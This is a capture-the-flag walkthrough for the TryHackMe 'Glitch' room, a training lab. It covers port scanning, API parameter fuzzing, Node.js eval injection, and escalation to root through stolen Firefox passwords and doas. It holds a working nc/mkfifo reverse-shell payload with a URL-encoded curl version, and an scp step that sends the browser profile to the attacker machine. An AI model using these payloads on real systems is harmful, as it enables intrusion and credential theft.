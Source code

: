 ![GLITCH ROOM LOGO](./img/GLITCH.jpeg)
# GLITCH 
Challenge showcasing a web app and simple privilege escalation. Can you find the [glitch](https://tryhackme.com/room/glitch)?

## [Q1] Deploy the machine
Required OpenVPN to connect to corresponding server
## [Q2] What is your access token?
   Let's begin with scanning open ports of this machine

   ```
   $nmap -T4 <machine ip>

   Nmap scan report for <machine ip>
   Host is up (0.29s latency).
   Not shown: 999 filtered ports
   PORT   STATE SERVICE
   80/tcp open  http
   Nmap done: 1 IP address (1 host up) scanned in 23.42 seconds
   ```

   Port 80:
   ![Port 80](./img/site1.jpg)
   By looking at the source of the site, I found a script:

   ```JavaScript
    <script>
        function getAccess() {
            fetch('/api/access')
            .then((response) => response.json())
            .then((response) => {
                console.log(response);
            });
        }
    </script>
```

We can run the getAccess() function through the browser by console tab or browsing to \<machine ip>/api/access

![](./img/Console.jpg)

By decoding, we will get the original token and we should set that in our cookie

![Session cookie](./img/Session.jpg)

## [Q3] What is the content of user.txt?
Now let's refresh the page.
Feel free to surf the site after that XD

***

Warning! The site contains blinking images and sensitive words.

***

After looking at source and linked [JS](./src/script.js) file, I figured out that there are serveral links in the page that interact with \<machine ip>/api/items/ 

\<machine ip>/api/items :
![/api/items](./img/items.jpg)

There is a hint on THM:

    What other methods does the API accept?

Let's check the methods by sending an **OPTION** http request
    
    Allow: GET,HEAD,POST

So we can fuzz the site to find valid arguments

    └─$wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/api/objects.txt -X POST --hc 404,400 <machine ip>/api/items\?FUZZ\=test

    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: <machine ip>/api/items?FUZZ=test
    Total requests: 3132

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                             
    =====================================================================

    000000358:   500        10 L     64 W       1081 Ch     "cmd"                                               

    Total time: 0
    Processed Requests: 3132
    Filtered Requests: 3131
    Requests/sec.: 0

Let's check cmd

    └─$ curl -X POST <machine ip>/api/items\?cmd\=ls
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: ls is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>


So it's a **Node.JS**. Maybe we can get rce by nodejs eval ...


Reverse shell payload:

    require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacker IP> <Attacker Port> >/tmp/f ')

First, We must encode the payload as URL and then we're good to go:

    └─$ curl -X POST http://10.10.49.107/api/items\?cmd\=%72%65%71%75%69%72%65%28%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%22%29%2e%65%78%65%63%28%27%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%3c%41%74%74%61%63%6b%65%72%20%49%50%3e%20%3c%41%74%74%61%63%6b%65%72%20%50%6f%72%74%3e%20%3e%2f%74%6d%70%2f%66%20%27%29

We have shell :D

    └─$ nc -nvlp 4444             
    listening on [any] 4444 ...
    connect to [<Attacker IP>] from (UNKNOWN) [<Machine IP>] 32804
    /bin/sh: 0: can't access tty; job control turned off
    $ 
    $ python3 -c 'import pty;pty.spawn("/bin/bash")'
    user@ubuntu:/var/web$ ls /home
    ls /home
    user  v0id
    user@ubuntu:/var/web$ cd /home/user/ 
    cd /home/user/
    user@ubuntu:~$ cat user.txt
    cat user.txt
    THM{REDACTED}


## [Q4] What is the content of root.txt?

User's Home Directory:

    user@ubuntu:~$ ls -la
    ls -la
    total 48
    drwxr-xr-x   8 user user  4096 Jan 27 10:33 .
    drwxr-xr-x   4 root root  4096 Jan 15 14:13 ..
    lrwxrwxrwx   1 root root     9 Jan 21 09:05 .bash_history -> /dev/null
    -rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
    drwx------   2 user user  4096 Jan  4 13:41 .cache
    drwxrwxrwx   4 user user  4096 Jan 27 10:32 .firefox
    drwx------   3 user user  4096 Jan  4 13:41 .gnupg
    drwxr-xr-x 270 user user 12288 Jan  4 14:07 .npm
    drwxrwxr-x   5 user user  4096 Apr  2 16:11 .pm2
    drwx------   2 user user  4096 Jan 21 08:47 .ssh
    -rw-rw-r--   1 user user    22 Jan  4 15:29 user.txt

linPEAS interesting results:

    [+] Checking doas.conf
    permit v0id as root  

    [+] Users with console
    root:x:0:0:root:/root:/bin/bash      
    user:x:1000:1000:user:/home/user:/bin/bash
    v0id:x:1001:1001:,,,:/home/v0id:/bin/bash

For now let's check firefox hidden directory by sending that to our attack machine

    user@ubuntu:~$ tar -cvf firefox.tgz .firefox 

    ---
    Don't forget to start ssh in your Attacker machine
    ---

    user@ubuntu:~$ scp firefox.tgz <Attacker Machine username>@<Attacker IP>:
    scp firefox.tgz <Attacker Machine username>@<Attacker IP>:
    <Attacker Machine username>@<Attacker IP>'s password:

    firefox.tgz                                   100%   15MB 385.3KB/s   00:39 


Now in your attacker machine:

    └─$ tar -xvf firefox.tgz 
    └─$ firefox --profile .firefox/b5w4643p.default-release --allow-downgrade

This will open firefox browser and you can head to saved passwords

![void pass](./img/firefox.jpg)

Now with linPEAS output and saved password in firefox for v0id we can see /root/root.txt

    user@ubuntu:~$ su - v0id -c "doas -u root bash -c 'cat /root/root.txt'"
    su - v0id -c "doas -u root bash -c 'cat /root/root.txt'"
    Password: 

    Password: 

    THM{REDACTED}
